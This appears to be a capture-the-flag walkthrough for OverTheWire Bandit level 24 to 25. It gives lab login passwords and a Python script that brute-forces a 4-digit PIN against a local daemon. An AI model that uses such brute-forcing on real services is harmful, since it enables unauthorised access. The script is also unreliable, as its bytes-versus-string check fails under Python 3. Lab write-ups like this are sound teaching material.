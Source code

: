 ```yaml
---
layout: post
author: mike
series: bandit
---
```


### Level 24 -> 25
#### Game Instructions
> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

This one is our first scripting for brute force...
```
ssh -p 2220 bandit24@bandit.labs.overthewire.org
password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
We have a daemon listening on port 30002 for us to send both the previous password + a 4 digit pin. We can do this manually and take a week or so, or we can script it out to try the 10000 combinations. **Our First Brute Attack**

Here's a script:
```py
#!/usr/bin/env python3
# coding: utf-8
import sys
import socket
pincode = 0
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
try:
    # Connect to server
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1", 30002))

    # Print welcome message
    welcome_msg = s.recv(2048)
    print(welcome_msg)
    # Try brute-forcing
    while pincode < 10000:
        pincode_string = str(pincode).zfill(4)
        message=password+" "+pincode_string+"\n"
        # Send message
        s.sendall(message.encode())
        receive_msg = s.recv(1024)
        # Check result
        if "Wrong" in receive_msg:
            print("Wrong PINCODE: %s" % pincode_string)
        else:
            print(receive_msg)
            break
        pincode += 1
finally:
    sys.exit(1)
```
After a while we'll get to the right combination. The pin is **2586** as of my writing.

Next password:
`uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`
